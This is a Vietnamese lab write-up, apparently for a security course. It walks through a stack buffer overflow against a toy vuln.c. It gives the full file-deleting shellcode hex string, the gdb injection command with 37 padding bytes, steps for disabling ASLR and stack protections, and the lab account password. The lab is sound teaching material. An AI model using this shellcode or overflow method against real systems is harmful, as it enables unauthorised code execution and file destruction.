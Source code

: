 # Lab 2: Inject code to delete file: file_del.asm
## Chú ý
  - Để chèn được mã lệnh vào giữa chương trình, shellcode phải được chép vào dưới dạng một chuỗi. Tuy nhiên, các hàm xử lý chuỗi sẽ hoàn tất ngay khi gặp một ký tự null (\0). Do đó, shellcode của chúng ta phải không được chứa bất kỳ giá trị null nào. Cần xử lí mã hex 0x00 hoặc 0x0a (decimal là 10) của file_del.asm bằng cách chuyển **eax** thành **al** và `mov eax, 10` thành `move al, 8|add al, 2`
![image](/buffer-overflow/INSE/images/change_code.png)
## Stack frame của vuln.c
![image](/buffer-overflow/INSE/images/stack-frame.png)
- Để thực hiện tấn công buffer overflow vào stack frame trên ta cần chèn code đến vị trí của return address
- Sau đó tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode
![image](/buffer-overflow/INSE/images/chèn_shellcode.png)
- Đối với trường hợp của chương trình trên thì ta có thể tính toán ra được padding bytes **37** (33b còn lại trong buf và 4b của ebp)

## Các bước thực hiện:
  1. Đầu tiên cần chạy docker bằng lệnh 
`docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`
![image](/buffer-overflow/INSE/images/docker.png)
  2. cd vào ổ đĩa có chứa thư mục Seclabs  `cd .\Seclabs\buffer-overflow\`
  3. Biên dịch chương trình (file_del.o) bằng lệnh `nasm -g -f elf file_del.asm`
    - Lúc này ta sẽ thấy file file_del.o được tạo ra
![image](/buffer-overflow/INSE/images/file_del.o.png)
  4. Liên kết để tạo chương trình thực thi với `ld -m elf_i386 -o file_del file_del.o`
  5. Hiển thị thông tin của chương trình `objdump -d file_del.o`
![image](/buffer-overflow/INSE/images/before.png)
  - Chương trình này là chương trình đã qua xử lí các mã 0x00 và 0x0a
![image](/buffer-overflow/INSE/images/objdump.png)
  - Tại đây ta có thể thấy dòng gạch dưới là mã hex của dummyfile.
  1. Sau đó để tạo chuỗi hex của shellcode thì dùng `for i in $(objdump -d file_del | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`
![image](/buffer-overflow/INSE/images/shellcode.png)
  - Vì cái chuỗi mã hex trên là của dummyfile nên ta có thể trực tiếp bỏ \xdummyfile cuối cùng nên chuỗi hex hiện tại chúng ta sẽ lấy là `\xeb\x0f\xb0\x08\x04\x02\xbb\x76\x80\x04\x08\xcd\x80\xb0\x01\xcd\x80\xe8\xec\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65`
  - Tại đây ta cũng bỏ \x00 ở cuối cùng vì nó gây ảnh hưởng đến mã hex khi chèn dữ liệu vào
  1. Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH `sudo sysctl -w kernel.randomize_va_space=0`
   - Mật khẩu của seed là **dees**
![image](/buffer-overflow/INSE/images/kernel.png)
  1. Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack `gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
  - `-fno-stack-protector`: tắt cơ chế bảo vệ stack (stack smashing) để chương trình biên dịch bình thường
  - `-mpreferred-stack-boundary=2`: disas trong gdb sẽ thấy kết quả đẹp, không bị các code thừa
![image](/buffer-overflow/INSE/images/gcc.png)
  1. Tạo link tới zsh thay vì mặc định dash để tắt tính năng đối phó bash của Ubuntu 16.04 
  `sudo ln -sf /bin/zsh /bin/sh`
  1.  Load chương trình vuln.out trong gdb `gdb vuln.out`
  2.  Disassemble hàm main của chương trình `disas main`
  ![image](/buffer-overflow/INSE/images/disas_main.png)
  - Tại đây ta sẽ tạo 2 breakpoint. Một cái ngay sau khi chương trình khởi tạo biến cục bộ **buf[64]** và một cái ngay khi chương trình thực hiện lệnh **strcpy** để tiện quan sát dữ liệu chạy vào bộ nhớ stack \
  ![image](/buffer-overflow/INSE/images/breakpoint.png)
  1.   Chèn chuỗi hex của shellcode bằng dòng lệnh `r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`. Đối với bài này chúng ta sẽ chèn chuỗi hex như sau :\
   `r $(python -c "print('\xeb\x0f\xb0\x08\x04\x02\xbb\x76\x80\x04\x08\xcd\x80\xb0\x01\xcd\x80\xe8\xec\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65' + 'a' * 37 + '\xff\xff\xff\xff')")`
   ![image](/buffer-overflow/INSE/images/r_python.png)
   ![image](/buffer-overflow/INSE/images/breakpoint1.png)
  2.  Sau đó chương trình sẽ chạy và dừng ở breakpoint 1. Lúc này ta sẽ dùng lệnh `x/80xb $esp` để xem 80 bytes bắt đầu từ esp của bộ nhớ stack
   ![image](/buffer-overflow/INSE/images/80x_b1.png)
  3.  Tiếp tục dùng lệnh `continue` để chạy tiếp chương trình và nó sẽ dừng lại tại breakpoint 2 khi chương trình đã thực thi lệnh strcpy. 
   ![image](/buffer-overflow/INSE/images/breakpoint2.png)
  4.  Tiếp tục dùng lệnh `x/80xb $esp` để xem chuỗi hex đã chèn được vào trong bộ nhớ stack
   ![image](/buffer-overflow/INSE/images/80x_b2.png)
  5.  Xác định vị trí của địa chỉ trả về trong stack, sau đó đặt thành địa chỉ của esp
  ![image](/buffer-overflow/INSE/images/set.png)
  Lúc này địa chỉ của return address đã được thay bằng địa chỉ của esp
  1.  Lúc này chương trình sẽ chạy đến cuối
![image](/buffer-overflow/INSE/images/final.png)



